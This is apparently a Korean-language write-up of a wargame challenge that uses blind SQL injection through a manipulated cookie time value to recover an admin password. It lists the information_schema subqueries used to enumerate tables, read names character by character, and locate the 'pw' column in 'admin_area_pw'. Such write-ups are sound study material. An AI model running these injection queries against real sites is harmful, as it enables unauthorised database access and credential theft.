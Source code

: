- cookie의 time값을 조작하여 blind sqli를 수행하여 password를 알아내는 문제이다.
  
- (SELECT count(table_name) FROM information_schema.tables 
 WHERE table_schema = database())
  - 여기서 information_schema.tables는 현재 DB서버에 존재하는 모든 테이블에 관한 메타데이터를 담고있는 시스템 테이블이다.
  - table_schema = database()는 현재 use database; 로 접속한 사용중인 데이터베이스의 테이블만을 의미한다.
  - table_name은 각 테이블의 이름이다.

- (SELECT length(table_name) FROM information_schema.tables 
 WHERE table_schema = database() 
 limit 0, 1)
  - 여기서는 table_name의 길이를 가져온다.
  - 테이블 갯수마다 결과가 반환될텐데 앞서 2개인걸 확인했으니 2개의 결과가 나올것이다
  - 그래서 limit 0 offset 1 을 통해 2개중 첫번째걸 가져온다.(13)
  - limit 1,1은 두번째꺼 (3)

- (SELECT ascii(substring(table_name,1,1)) FROM information_schema.tables 
 WHERE table_schema = database() 
 limit 1, 1)
   - 2번째꺼는 한글자씩 ascii값을 확인해보니 각각 108, 111, 103이 나왔다.
   - 1번째 꺼는 admin_area_pw
 
 - (SELECT count(column_name) FROM information_schema.columns WHERE table_name = 'admin_area_pw')
   - column_name
   - information_schema.columns 에서 찾는다.
   - 답은 1이 나왔다. 컬럼이 하나밖에 없는 것.
  
 - 이 컬럼의 이름은 앞선 방법을 이용해 pw인걸 알 수 있다.
 - 마지막으로 admin_area_pw라는 table안의, pw라는 column내용을 읽어주면 답을 구할 수 있다!